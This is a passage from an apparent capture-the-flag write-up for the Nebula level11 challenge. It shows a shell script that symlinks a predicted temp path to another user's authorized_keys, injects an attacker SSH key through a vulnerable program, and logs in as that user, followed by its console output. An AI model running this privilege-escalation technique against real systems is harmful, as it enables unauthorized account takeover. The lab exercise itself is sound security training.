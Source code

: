 A little sidenote regarding the comment, it's the last part in the `public key` file and it defaults to `level11@nebula` because we generate the key for the current user.

Throughout my experiments I found that leaving it like that won't allow `SSH` login for `flag11`, so I removed it.
```shell
# generate key pair with no comment in public key
ssh-keygen -t rsa -f key -C ''

# set TEMP to a new tmp directory in home dir
mkdir -p $HOME/tmp_exploit_dir
TEMP=$HOME/tmp_exploit_dir

# predict random path and write a symlink in it
ln -f --symbolic -T /home/flag11/.ssh/authorized_keys $(./getpath 0 5)

# calculate filler for buffer
FILLER_COUNT=$((1024 - $(wc --bytes < key.pub)))

# generate and pass public key buffer to flag11
printf "Content-Length: 1024\n$(cat key.pub)\n%s\n" $(python -c "print 'a' * $FILLER_COUNT") | /home/flag11/flag11

# login via ssh w/ private key
ssh -i key flag11@127.0.0.1

# clean tmp dir
rm -rf $HOME/tmp_exploit_dir
```
This is what we have so far.
```console
level11@nebula:~/exploit$ ls -la
total 16
drwxrwxr-x 2 level11 level11  100 2021-06-11 10:29 .
drwxr-x--- 1 level11 level11  180 2021-06-11 10:29 ..
-rwxrwxrwx 1 level11 level11  656 2021-06-11 10:29 attack.sh
-rwxrwxrwx 1 level11 level11 7388 2021-06-11 01:58 getpath
-rw-rw-r-- 1 level11 level11  744 2021-06-11 01:58 getpath.c
```
Now run the attack!
```console
level11@nebula:~/exploit$ ./attack.sh
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in key.
Your public key has been saved in key.pub.
The key fingerprint is:
02:3f:87:cf:ab:b7:7a:76:fb:f1:fd:4f:18:bf:14:df
The key's randomart image is:
+--[ RSA 2048]----+
|                 |
|                 |
|    .            |
|     o .         |
|      = S     .. |
|       *       ++|
|        o   . ..E|
|        +..  o.o.|
|      o*oo.o. ..*|
+-----------------+
blue = 1024, length = 1024, pink = 1024
sh: $'s\376\347\205Q\241P\301a\376\200': command not found

      _   __     __          __
```